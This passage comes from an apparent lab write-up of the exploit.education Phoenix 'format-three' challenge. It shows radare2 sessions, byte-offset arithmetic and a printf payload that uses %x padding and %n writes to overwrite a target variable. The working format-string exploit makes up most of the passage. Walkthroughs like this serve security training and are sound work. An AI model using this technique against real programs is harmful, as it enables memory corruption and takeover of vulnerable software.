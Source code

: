 From here on, the byte to be written is calculated as follows: `"the byte we want to write" - "the previous byte that was written"`.

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-three -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0x0804855e]> ? 0x78 - 0x145
int64   -205
uint64  18446744073709551411
hex     0xffffffffffffff33
octal   01777777777777777777463
unit    16E
segment fffff000:0f33
string  "3\xff\xff\xff\xff\xff\xff\xff"
fvalue: -205.0
float:  nanf
double: nan
binary  0b1111111111111111111111111111111111111111111111111111111100110011
trits   0t11112220022122120101211020120210210120100
[0x0804855e]> ? 0x178 - 0x145
int32   51
uint32  51
hex     0x33
octal   063
unit    51
segment 0000:0033
string  "3"
fvalue: 51.0
float:  0.000000f
double: 0.000000
binary  0b00110011
trits   0t1220
{% endhighlight %}

Updating the exploit..

{% highlight shell %}
$ echo $(printf "\x44\x98\x04\x08AAAA\x45\x98\x04\x08AAAA\x46\x98\x04\x08AAAA\x47\x98\x04\x08")%x%x%x%x%x%x%x%x%x%x%244x%n%51x%n > pattern
{% endhighlight %}

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-three -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7eecd4b]> aas
Cannot analyze at 0x080485e0
[0xf7eecd4b]> db 0x0804855e
[0xf7eecd4b]> px/xw @ obj.changeme
0x08049844  0x00000000                                   ....
[0xf7eecd4b]> dc
Welcome to phoenix/format-three, brought to you by https://exploit.education
hit breakpoint at: 804855e
[0x0804855e]> px/xw @ obj.changeme
0x08049844  0x00017845                                   Ex..
[0x0804855e]> ? 0x45 - 0x178
int64   -307
uint64  18446744073709551309
hex     0xfffffffffffffecd
octal   01777777777777777777315
unit    16E
segment fffff000:0ecd
string  "\xcd\xfe\xff\xff\xff\xff\xff\xff"